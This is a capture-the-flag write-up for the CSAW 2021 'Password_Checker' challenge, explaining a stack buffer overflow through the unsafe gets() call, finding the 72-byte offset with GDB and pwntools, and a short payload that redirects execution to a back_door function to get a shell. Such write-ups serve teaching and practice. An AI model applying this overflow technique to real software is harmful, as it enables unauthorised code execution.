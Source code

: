 # Password_Checker
The goal of this challenge is to get a shell on a remote system and cat the flag.txt file. This is done through a standard b0f through the vulnerable `gets` function control execution flow in order to call `back_door`.

`Main` is a fairly boring function that only calls `init` and `password_checker` then returns.

![pic](2021-09-12_13-31.png)

`Password_checker` executes a string comparison to a hard coded value then returns. However it uses `gets` and reads an arbitray amount of data.

![pic](2021-09-12_13-30.png) 

GDB-GEF disass of `password_checker`:

![pic](2021-09-12_13-33.png)

Ghidra shows the buffer size of local_48 as 60. While 61 bytes will overflow the buffer there is still some distance to `$rip`. Through testing it is found that the total offset to `$rip` is 72.

We can find the offset inside GDB with pwntools:

Set a breakpoint immediently following `gets`: `b *0x00000000004011f1`

Then generate your cyclic pattern: `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic`

Execute the program with cyclic as the input `r < cyclic`

Examine the value of `$rbp`: `x/s $rbp`

Query the offset in 8 byte chunks: `! python3 -c "import pwn; print(pwn.cyclic_find('aaiaaaaa', n=8))"`

The beginning of `$rbp` is 62 + 8 bytes for the length of `$rbp` to equel 70

Through manual `demsg` inspection I found there was 2 extra byts of padding to equal a total of 72 bytes as the offset

From here we control `$rip` and write out the next 8 bytes as the location of `back_door`: 0x0000000000401172

Our final [payload](https://github.com/CR15PR/CSAW2021/blob/main/warm-up/Password_Checker/solver.py) looks like this:
  ```back_door = p64(password_elf.symbols.backdoor)
  OFFSET = 72
  junk = b"A" * OFFSET
  
  payload = [
    junk,
    back_door,
  ]

  payload = b''.join(payload)
  p.sendline(payload)```
